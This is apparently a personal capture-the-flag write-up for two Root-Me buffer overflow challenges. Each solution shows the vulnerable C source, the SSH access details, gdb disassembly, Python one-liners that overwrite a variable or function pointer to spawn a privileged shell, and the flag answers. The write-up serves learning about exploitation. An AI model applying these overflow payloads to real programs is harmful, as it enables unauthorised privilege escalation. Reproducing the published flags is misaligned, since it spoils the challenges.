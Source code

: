 # [Root-Me](./rootme.md) Root-Me App - System Challenges [1/83]

These challenges will help you understand applicative vulnerabilities. 

## Contents

1. [ELF x86 - Stack buffer overflow basic 1](#elf-x86-stack-buffer-overflow-basic-1) 🗸
2. [ELF x86 - Stack buffer overflow basic 2](#elf-x86-stack-buffer-overflow-basic-2)
3. [PE32 - Stack buffer overflow basic](#pe32-stack-buffer-overflow-basic)
4. [ELF x86 - Format string bug basic 1](#elf-x86-format-string-bug-basic-1)
5. [ELF x64 - Stack buffer overflow - basic](#elf-x64-stack-buffer-overflow-basic)
6. [ELF x86 - Format string bug basic 2](#elf-x86-format-string-bug-basic-2)
7. [ELF x86 - Race condition](#elf-x86-race-condition)
8. [ELF ARM - Stack buffer overflow - basic](#elf-arm-stack-buffer-overflow-basic)
9. [ELF MIPS - Stack buffer overflow - No NX](#elf-mips-stack-buffer-overflow-no-nx)
10. [ELF x64 - Double free](#elf-x64-double-free)
11. [ELF x86 - Stack buffer overflow basic 3](#elf-x86-stack-buffer-overflow-basic-3)
12. [ELF x86 - Use After Free - basic](#elf-x86-use-after-free-basic)
13. [ELF ARM - Stack Spraying](#elf-arm-stack-spraying)
14. [ELF x64 - Stack buffer overflow - PIE](#elf-x64-stack-buffer-overflow-pie)
15. [ELF x86 - BSS buffer overflow](#elf-x86-bss-buffer-overflow)
16. [ELF x86 - Stack buffer overflow basic 4](#elf-x86-stack-buffer-overflow-basic-4)
17. [ELF x86 - Stack buffer overflow basic 6](#elf-x86-stack-buffer-overflow-basic-6)
18. [ELF x86 - Format String Bug Basic 3](#elf-x86-format-string-bug-basic-3)
19. [PE32 - Advanced stack buffer overflow](#pe32-advanced-stack-buffer-overflow)
20. [ELF ARM - Basic ROP](#elf-arm-basic-rop)
21. [ELF MIPS - Basic ROP](#elf-mips-basic-rop)
22. [ELF x86 - Stack buffer overflow - C++ vtables](#elf-x86-stack-buffer-overflow-cpp-vtables)
23. [PE32+ Format string bug](#pe32-format-string-bug)
24. [ELF x64 - Logic bug](#elf-x64-logic-bug)
25. [ELF x86 - Bug Hunting - Several issues](#elf-x86-bug-hunting-several-issues)
26. [ELF x86 - Stack buffer and integer overflow](#elf-x86-stack-buffer-and-integer-overflow)
27. [ELF x86 - Stack buffer overflow - ret2dl_resolve](#elf-x86-stack-buffer-overflow-ret2dl-resolve)
28. [ELF x86 - Stack buffer overflow basic 5](#elf-x86-stack-buffer-overflow-basic-5)
29. [ELF x64 - Stack buffer overflow - advanced](#elf-x64-stack-buffer-overflow-advanced)
30. [ELF MIPS - Format String Glitch](#elf-mips-format-string-glitch)
31. [ELF x64 - Heap Filling](#elf-x64-heap-filling)
32. [ELF x86 - Information leakage with Stack Smashing Protector](#elf-x86-information-leakage-with-stack-smashing-protector)
33. [ELF x64 - File Structure Hacking](#elf-x64-file-structure-hacking)
34. [ELF ARM - Race condition](#elf-arm-race-condition)
35. [ELF x64 - Browser exploit - Intro](#elf-x64-browser-exploit-intro)
36. [ELF x64 - Heap Safe-Linking Bypass](#elf-x64-heap-safe-linking-bypass)
37. [ELF x64 - ret2dl_init](#elf-x64-ret2dl-init)
38. [ELF x86 - Out of bounds attack - French Paradox](#elf-x86-out-of-bounds-attack-french-paradox)
39. [ELF x86 - Remote BSS buffer overflow](#elf-x86-remote-bss-buffer-overflow)
40. [ELF x86 - Remote Format String bug](#elf-x86-remote-format-string-bug)
41. [PE32+ Basic ROP](#pe32-basic-rop)
42. [ELF x64 - Remote heap buffer overflow - fastbin](#elf-x64-remote-heap-buffer-overflow-fastbin)
43. [ELF x86 - Blind remote format string bug](#elf-x86-blind-remote-format-string-bug)
44. [LinKern ARM - vulnerable syscall](#linkern-arm-vulnerable-syscall)
45. [LinKern x86 - Buffer overflow basic 1](#linkern-x86-buffer-overflow-basic-1)
46. [LinKern x86 - Null pointer dereference](#linkern-x86-null-pointer-dereference)
47. [LinKern x64 - Race condition](#linkern-x64-race-condition)
48. [ELF ARM - Alphanumeric shellcode](#elf-arm-alphanumeric-shellcode)
49. [ELF MIPS - URLEncoded Format String bug](#elf-mips-urlencoded-format-string-bug)
50. [ELF x86 - Hardened binary 1](#elf-x86-hardened-binary-1)
51. [ELF x86 - Hardened binary 2](#elf-x86-hardened-binary-2)
52. [ELF x86 - Hardened binary 3](#elf-x86-hardened-binary-3)
53. [ELF x86 - Hardened binary 4](#elf-x86-hardened-binary-4)
54. [LinKern MIPSel - Vulnerable ioctl](#linkern-mipsel-vulnerable-ioctl)
55. [LinKern x64 - reentrant code](#linkern-x64-reentrant-code)
56. [ELF ARM - Heap format string bug](#elf-arm-heap-format-string-bug)
57. [ELF x64 - Sigreturn Oriented Programming](#elf-x64-sigreturn-oriented-programming)
58. [ELF ARM - Format String bug](#elf-arm-format-string-bug)
59. [ELF ARM - Use After Free](#elf-arm-use-after-free)
60. [ELF x64 - FILE structure hijacking](#elf-x64-file-structure-hijacking)
61. [ELF x64 - Heap feng-shui](#elf-x64-heap-feng-shui)
62. [ELF x64 - Off-by-one bug](#elf-x64-off-by-one-bug)
63. [ELF x86 - Hardened binary 5](#elf-x86-hardened-binary-5)
64. [LinKern ARM - Stack Overflow](#linkern-arm-stack-overflow)
65. [LinKern x86 - basic ROP](#linkern-x86-basic-rop)
66. [ELF ARM - Heap Off-by-One](#elf-arm-heap-off-by-one)
67. [ELF x64 - Remote Heap buffer overflow 1](#elf-x64-remote-heap-buffer-overflow-1)
68. [ELF x86 - Hardened binary 6](#elf-x86-hardened-binary-6)
69. [ELF x86 - Hardened binary 7](#elf-x86-hardened-binary-7)
70. [ELF x86 - Remote stack buffer overflow - Hardened](#elf-x86-remote-stack-buffer-overflow-hardened)
71. [LinKern x64 - RowHammer](#linkern-x64-rowhammer)
72. [LinKern x64 - SLUB off-by-one](#linkern-x64-slub-off-by-one)
73. [ELF ARM - Heap buffer overflow - Wilderness](#elf-arm-heap-buffer-overflow-wilderness)
74. [ELF ARM - Heap Overflow](#elf-arm-heap-overflow)
75. [ELF x64 - Seccomp Whitelist](#elf-x64-seccomp-whitelist)
76. [ELF x86 - Blind ROP](#elf-x86-blind-rop)
77. [Linkern x64 - Memory exploration](#linkern-x64-memory-exploration)
78. [WinKern x64 - Advanced stack buffer overflow - ROP](#winkern-x64-advanced-stack-buffer-overflow-rop)
79. [WinKern x64 - Use After Free](#winkern-x64-use-after-free)
80. [ELF x64 - Remote Heap buffer overflow 2](#elf-x64-remote-heap-buffer-overflow-2)
81. [ELF x64 - Advanced Heap Exploitation - Heap Leakless & Fortified](#elf-x64-advanced-heap-exploitation-heap-leakless-fortified)
82. [ELF x64 - Blind ROP](#elf-x64-blind-rop)
83. [ELF x64 - Browser exploit - BitString](#elf-x64-browser-exploit-bitstring)

---

### [App - System](#contents) | [Root-Me](./rootme.md) | [Home](./index.md)

---

## ELF x86 Stack buffer overflow basic 1

- Author: Lyes
- Date: 25 March 2015
- Points: 5
- Level: 1

### Statement

Environment configuration:

<details>

<summary markdown="span">Source Code</summary>

~~~c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
     
int main()
{
     
  int var;
  int check = 0x04030201;
  char buf[40];
     
  fgets(buf,45,stdin);
     
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
  
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
  
  if (check == 0xdeadbeef)
  {
    printf("Yeah dude! You win!\nOpening your shell...\n");
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
    printf("Shell closed! Bye.\n");
  }
  return 0;
}
~~~

</details>

### Connection Details

- Host: challenge02.root-me.org
- Protocol: SSH
- Port:2222
- SSH access: ssh -p 2222 app-systeme-ch13@challenge02.root-me.org 
- Username: app-systeme-ch13
- Password: app-systeme-ch13

### Resources

1. [youtube](https://www.youtube.com/watch?v=u-OZQkv2ebw).
2. [buffering in standard streams](https://repository.root-me.org/Administration/Unix/Linux/EN%20-%20buffering%20in%20standard%20streams.pdf).
3. [Exploiting Stack Buffer Overflows in Linux x86 Kernel](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%20Exploiting%20Stack%20Buffer%20Overflows%20in%20the%20Linux%20x86%20Kernel.pdf).

### Solutions

<details>

<summary markdown="span">Solution</summary>

Reviewing the source code we can see the vulnerability in the buf variable:

~~~c
char buf[40];     
fgets(buf,45,stdin);
~~~

The variable buf is allocated 40 Bytes but the fgets reads 45 Bytes in.  We can overflow the buf buffer and write into the stack.

Connecting, we can see the vulnerability:

~~~shell
app-systeme-ch13@challenge02:~$ ./ch13
0000000000000000000000000000000000000000000000

[buf]: 000000000000000000000000000000000000000000000
[check] 0x3030303030

You are on the right way!
app-systeme-ch13@challenge02:~$ ./ch13
0000000000000000000000000000000000000000111111

[buf]: 000000000000000000000000000000000000000011111
[check] 0x3131313131

You are on the right way!
~~~

We can see the overflow checks the check variable which is manipulated by the trailing characters (0x31 = "1").  We ncan check the endian-ness of the buffer:

~~~shell
app-systeme-ch13@challenge02:~$ ./ch13
000000000000000000000000000000000000000012345

[buf]: 00000000000000000000000000000000000000001234
[check] 0x34333231

You are on the right way!
~~~
  
This shows us the variable is little-endian.  We need to append a 5-byte statement to generate a correct little-endian value as detailed in the source code:

~~~c
if (check == 0xdeadbeef)
~~~

We can use python to insert the hex chars:

~~~shell
app-systeme-ch13@challenge02:~$ (python -c 'print("0"*40+"\xef\xbe\xad\xde")') | ./ch13

[buf]: 0000000000000000000000000000000000000000ﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
Shell closed! Bye.
~~~

This opens a shell and immediately closes it.  We need to interrupt it using cat:

~~~shell
app-systeme-ch13@challenge02:~$ (python -c 'print("0"*40+"\xef\xbe\xad\xde")'; cat) | ./ch13

[buf]: 0000000000000000000000000000000000000000ﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
ls
ch13  ch13.c  Makefile
strings .passwd
1w4ntm0r3pr0np1s
exit
Shell closed! Bye.
~~~
  
</details>

### Answer

<details>

<summary markdown="span">Answer</summary>

~~~
1w4ntm0r3pr0np1s
~~~

</details>

---

### [App - System](#contents) | [Root-Me](./rootme.md) | [Home](./index.md)

---

## ELF x86 Stack buffer overflow basic 2

- Author: Lyes
- Date: 10 April 2015
- Points: 10
- Level: 1

### Statement

<details>

<summary markdown="span">Source Code</summary>

~~~c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
     
void shell() {
  setreuid(geteuid(), geteuid());
  system("/bin/bash");
}
     
void sup() {
  printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
}
     
void main()
{
  int var;
  void (*func)()=sup;
  char buf[128];
  fgets(buf,133,stdin);
  func();
}
~~~

</details>

### Connection Details

- Host: challenge02.root-me.org
- Protocol: SSH
- Port:2222
- SSH access: ssh -p 2222 app-systeme-ch15@challenge02.root-me.org 
- Username: app-systeme-ch15
- Password: app-systeme-ch15

### Resources

1. [youtube](https://www.youtube.com/watch?v=u-OZQkv2ebw).
2. [Exploiting Stack Buffer Overflows in Linux x86 Kernel](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%20Exploiting%20Stack%20Buffer%20Overflows%20in%20the%20Linux%20x86%20Kernel.pdf).
3. [64 bits Linux Stack Based Buffer Overflow](https://repository.root-me.org/Exploitation%20-%20Syst%C3%A8me/Unix/EN%20-%2064%20Bits%20Linux%20Stack%20Based%20Buffer%20Overflow.pdf).

### Solutions

<details>

<summary markdown="span">Solution</summary>

Reviewing the source code we can see the vulnerability in the buf variable:

~~~c
char buf[128];
fgets(buf,133,stdin);
~~~

The variable buf is allocated 128 Bytes but the fgets reads 133 Bytes in.  We can overflow the buf buffer and write into the stack.  We can also see a call to the bash shell in shell().  We need to call that instead of funcP{

Connecting, we can see the vulnerability:

~~~shell
$ ssh -p 2222 app-systeme-ch15@challenge02.root-me.org
app-systeme-ch15@challenge02:~$ ls
ch15  ch15.c  Makefile
app-systeme-ch15@challenge02:~$ ./ch15
0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000 
app-systeme-ch15@challenge02:~$ ./ch15
000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000012345
Segmentation fault
~~~

We can decompile in gdb to find the address of the shell() function:

~~~shell
app-systeme-ch15@challenge02:~$ gdb ch15
gdb) run
Starting program: /challenge/app-systeme/ch15/ch15 
1
Hey dude ! Waaaaazzaaaaaaaa ?!
[Inferior 1 (process 24071) exited with code 037]
(gdb) disassemble main
Dump of assembler code for function main:
   0x08048584 <+0>:	lea    0x4(%esp),%ecx
   0x08048588 <+4>:	and    $0xfffffff0,%esp
   0x0804858b <+7>:	pushl  -0x4(%ecx)
   0x0804858e <+10>:	push   %ebp
   0x0804858f <+11>:	mov    %esp,%ebp
   0x08048591 <+13>:	push   %ebx
   0x08048592 <+14>:	push   %ecx
   0x08048593 <+15>:	sub    $0x90,%esp
   0x08048599 <+21>:	call   0x80485de <__x86.get_pc_thunk.ax>
   0x0804859e <+26>:	add    $0x1a62,%eax
   0x080485a3 <+31>:	lea    -0x1aa7(%eax),%edx
   0x080485a9 <+37>:	mov    %edx,-0xc(%ebp)
   0x080485ac <+40>:	mov    -0x4(%eax),%edx
   0x080485b2 <+46>:	mov    (%edx),%edx
   0x080485b4 <+48>:	sub    $0x4,%esp
   0x080485b7 <+51>:	push   %edx
   0x080485b8 <+52>:	push   $0x85
   0x080485bd <+57>:	lea    -0x8c(%ebp),%edx
   0x080485c3 <+63>:	push   %edx
   0x080485c4 <+64>:	mov    %eax,%ebx
   0x080485c6 <+66>:	call   0x8048390 <fgets@plt>
   0x080485cb <+71>:	add    $0x10,%esp
   0x080485ce <+74>:	mov    -0xc(%ebp),%eax
   0x080485d1 <+77>:	call   *%eax
   0x080485d3 <+79>:	nop
   0x080485d4 <+80>:	lea    -0x8(%ebp),%esp
   0x080485d7 <+83>:	pop    %ecx
   0x080485d8 <+84>:	pop    %ebx
   0x080485d9 <+85>:	pop    %ebp
   0x080485da <+86>:	lea    -0x4(%ecx),%esp
   0x080485dd <+89>:	ret    
End of assembler dump.
~~~
  
We can look at the memory address for shell:

~~~shell
(gdb) disassemble shell
Dump of assembler code for function shell:
   0x08048516 <+0>:	push   ebp
   0x08048517 <+1>:	mov    ebp,esp
   0x08048519 <+3>:	push   esi
   0x0804851a <+4>:	push   ebx
   0x0804851b <+5>:	call   0x8048450 <__x86.get_pc_thunk.bx>
   0x08048520 <+10>:	add    ebx,0x1ae0
   0x08048526 <+16>:	call   0x80483a0 <geteuid@plt>
   0x0804852b <+21>:	mov    esi,eax
   0x0804852d <+23>:	call   0x80483a0 <geteuid@plt>
   0x08048532 <+28>:	sub    esp,0x8
   0x08048535 <+31>:	push   esi
   0x08048536 <+32>:	push   eax
   0x08048537 <+33>:	call   0x80483d0 <setreuid@plt>
   0x0804853c <+38>:	add    esp,0x10
   0x0804853f <+41>:	sub    esp,0xc
   0x08048542 <+44>:	lea    eax,[ebx-0x1990]
   0x08048548 <+50>:	push   eax
   0x08048549 <+51>:	call   0x80483c0 <system@plt>
   0x0804854e <+56>:	add    esp,0x10
   0x08048551 <+59>:	nop
   0x08048552 <+60>:	lea    esp,[ebp-0x8]
   0x08048555 <+63>:	pop    ebx
   0x08048556 <+64>:	pop    esi
   0x08048557 <+65>:	pop    ebp
   0x08048558 <+66>:	ret    
End of assembler dump.
~~~

We need to call address 0x08048516:

~~~shell
app-systeme-ch15@challenge02:~$ (python -c 'print("0"*128+"\x16\x85\x04\x08")'; cat) | ./ch15

ls
ch15  ch15.c  Makefile
whoami
app-systeme-ch15-cracked
strings .passwd
B33r1sSoG0oD4y0urBr4iN
~~~
  
</details>

### Answer

<details>

<summary markdown="span">Answer</summary>

~~~
B33r1sSoG0oD4y0urBr4iN
~~~

</details>

---

### [App - System](#contents) | [Root-Me](./rootme.md) | [Home](./index.md)

---

Last updated Jan 2021.

## [djm89uk.github.io](https://djm89uk.github.io)
